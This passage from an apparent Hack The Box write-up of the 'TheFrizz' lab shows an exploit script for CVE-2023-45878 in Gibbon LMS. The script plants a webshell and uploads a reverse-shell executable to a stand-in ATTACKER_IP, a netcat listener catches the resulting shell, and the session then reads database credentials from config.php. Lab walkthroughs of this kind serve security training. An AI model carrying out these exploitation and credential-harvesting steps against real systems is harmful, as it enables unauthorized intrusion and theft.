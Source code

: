 ```
fcoomans@kali:~/htb/thefrizz$ cd CVE-2023-45878_to_RCE

fcoomans@kali:~/htb/thefrizz/CVE-2023-45878_to_RCE$ ./CVE-2023-45878.sh ATTACKER_IP 4444 frizzdc.frizz.htb
Generating TCP reverse shell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: 7zip.exe
TCP reverse shell generated: 7zip.exe
Spawining a webshell on the target
Shell available at http://frizzdc.frizz.htb/Gibbon-LMS/gibbon_myconfig.php?cmd=whoami
Python http.server started on port 80 - PID: 57058
10.10.11.60 - - [21/Jul/2025 15:02:04] "GET /7zip.exe HTTP/1.1" 200 -
Reverse shell uploaded
./CVE-2023-45878.sh: line 48: 57058 Killed                  python -m http.server $py_http_srv_port > /dev/null
Start a listener on port 4444, press ENTER when you are ready to execute the reverse shell on the target.
Netcat: nc -lnvp 4444
Msfconsole:  use exploit/multi/handler; set lhost ATTACKER_IP; set lport 4444; run
```

### 💰 Post Exploitation

#### 👣 Foothold as w.webservice

The `nc` listener catches the reverse shell launched by user `w.webservice`.

```
fcoomans@kali:~/htb/thefrizz$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.11.60] 65509
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\Gibbon-LMS>whoami
whoami
frizz\w.webservice
```

## 🔼 Priv Esc to Fiona

### 🔎 Recon

The `config.php` file reveals the database credentials.

```
C:\xampp\htdocs\Gibbon-LMS>type config.php
type config.php
<?php

<SNIP>

/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```